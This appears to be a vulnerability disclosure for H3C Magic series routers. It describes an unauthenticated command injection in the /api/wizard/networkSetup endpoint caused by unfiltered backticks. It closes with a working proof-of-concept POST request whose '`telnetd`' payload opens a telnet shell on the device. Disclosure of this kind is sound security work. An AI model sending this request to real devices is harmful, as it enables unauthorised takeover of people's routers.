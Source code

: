 ## Information

**Vendor of the products:** H3C Technologies Co., Ltd.

**Vendor's website:** https://www.h3c.com/

**Reported by:** Guan Qing Wen(2144987805@qq.com)

**Affected products:** H3C Magic NX15\H3C NX400\H3C Magic R3010\H3C Magic BE18000\H3C Magic NX30 Pro

**Affected firmware version:** <=V100R014 (Taking NX15 as an example.)

**Firmware download address:** [H3C NX15V100R014](https://www.h3c.com/cn/d_202409/2263952_30005_0.htm)

## Overview

In the `H3C` `Magic` series products, including `H3C Magic NX15`, `H3C NX400`, `H3C Magic R3010`, `H3C Magic BE18000`, and `H3C Magic NX30 Pro`, an attacker can send a specially crafted `POST` packet to the `/api/wizard/networkSetup` route without authorization, allowing them to obtain the highest privileges on the device.

## Vulnerability details

In the `api` file, the `FCGI_WizardProcess` function contains the `/wizard/networkSetup` route, which can trigger the corresponding handler function



![image-20250314125647586](https://blog-1311372141.cos.ap-nanjing.myqcloud.com/images/image-20250314125647586.png)



Due to the failure to filter backticks as dangerous characters, command injection occurs

![image-20250314125713058](https://blog-1311372141.cos.ap-nanjing.myqcloud.com/images/image-20250314125713058.png)

## Poc

```
POST /api/wizard/networkSetup HTTP/1.1
Host: 192.168.124.1
Content-Length: 11
Accept-Language: en-US,en;q=0.9
Accept: application/json, text/plain, */*
Content-Type: application/json;charset=UTF-8
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Origin: http://192.168.124.1
Referer: http://192.168.124.1/home
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

'`telnetd`'
```
